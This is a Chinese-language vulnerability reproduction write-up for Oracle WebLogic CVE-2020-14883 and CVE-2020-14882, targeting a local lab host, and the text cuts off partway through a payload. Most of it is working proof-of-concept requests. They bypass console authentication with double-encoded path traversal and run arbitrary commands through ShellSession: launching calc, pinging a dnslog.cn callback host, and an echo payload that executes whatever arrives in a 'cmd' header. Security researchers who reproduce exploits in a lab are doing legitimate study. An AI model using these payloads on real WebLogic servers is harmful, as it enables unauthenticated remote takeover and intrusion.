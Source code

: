 可访问7001端口（http://192.168.1.111:7001/console/login/LoginForm.jsp），说明环境部署成功

![](2.png)

## 漏洞复现

### CVE-2020-14883: 权限绕过漏洞

远程攻击者可以构造特殊的`HTTP`请求，在未经身份验证的情况下接管 `WebLogic Server Console`。

未授权访问后台

POC：

```
http://192.168.1.111:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29
```

![](3.png)

### CVE-2020-14882: 代码执行漏洞

#### 直接加载命令执行（无回显）

结合 `CVE-2020-14883` 漏洞，远程攻击者可以构造特殊的`HTTP`请求，在未经身份验证的情况下接管 `WebLogic Server Console` ，并在 `WebLogic Server Console` 执行任意代码。

POC 弹出计算器

```
http://192.168.1.111:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22)
```

![](4.png)

POC执行ping dnslog地址

```
http://192.168.1.111:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27ping monster.f7iu4d.dnslog.cn%27);%22)
```

#### 直接加载命令执行（回显）

POC GET方式执行id命令

```http
GET/console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThreadcurrentThread = (weblogic.work.ExecuteThread)Thread.currentThread();weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork();java.lang.reflect.Field field =adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Objectobj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req =(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj);String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window")? new String[]{"cmd.exe", "/c", cmd} : newString[]{"/bin/sh", "-c", cmd};if(cmd != null ){ Stringresult = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next();weblogic.servlet.internal.ServletResponseImpl res =(weblogic.servlet.internal.ServletRespo
```
